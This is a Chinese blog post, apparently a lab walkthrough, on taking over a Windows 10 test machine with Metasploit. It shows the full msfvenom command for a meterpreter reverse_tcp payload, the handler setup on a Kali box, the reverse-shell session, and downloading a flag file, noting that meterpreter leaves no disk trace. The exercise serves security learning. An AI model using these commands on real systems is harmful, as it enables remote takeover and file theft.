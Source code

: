 ```yaml
---
title: Metasploit的简单应用
date: 2021-11-06 17:36:08
tags:
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-j33woy_1920x1080.png
---
```


#  Metasploit的简单应用

1、生成主控端、被控端。
2、获得靶机(Windows)控制权。
3、下载靶机上任意一个文件。

## 工具

靶机： 关闭了windows安全中心的win10，ip: 192.168.118.132

攻击机：kali ip:192.168.118.128

## 开搞

生成被控端

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.118.128 LPORT=5000 -f exe > /root/payload.exe
#LHOST=kali的ip
#LPORT=端口
```

![image-20211106175332973](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106175332973.png)

![image-20211106175426563](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106175426563.png)

将生成的payload.exe丢进靶机里面

![image-20211106180904411](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106180904411.png)

回到kali

运行msfconsole

![image-20211106181253626](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106181253626.png)

执行以下命令

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
```

![image-20211106185237839](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106185237839.png)

执行 show options查看配置

![image-20211106185450806](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106185450806.png)

发现LHOST和LPORT还没设置

执行

```
set lhost 192.168.118.128

set lport 5000
```

![image-20211106190234370](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106190234370.png)

LHOST和LPORT已经重新设置

然后执行

```
exploit
```

等待对方上线

![image-20211106190753464](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106190753464.png)

双击靶机的payload.exe就可以看到kali中出现了一个session，也就是会话，这表示从现在起，我们可以通过被控制端程序来控制目标计算机了。同时，我们可以看到上图中出现meterpreter，这就是一个被控程序，meterpreter是运行在内存中的，通过注入dll文件实现，在目标计算机的硬盘上不会留下文件痕迹，所以在被入侵时很难找到。输入ls就可以查看payload.exe文件所在的当前目录有哪些文件

![image-20211106191133783](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106191133783.png)

我在靶机桌面上放了个flag.txt

![image-20211106192310207](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106192310207.png)



回到kali执行ls查看文件

![image-20211106191512514](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106191512514.png)

把它下载下来

```
download flag.txt
```

![image-20211106191953885](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106191953885.png)

得到flag

![image-20211106192133806](https://raw.githubusercontent.com/todis21/image/main/img/image-20211106192133806.png)





搞定收工
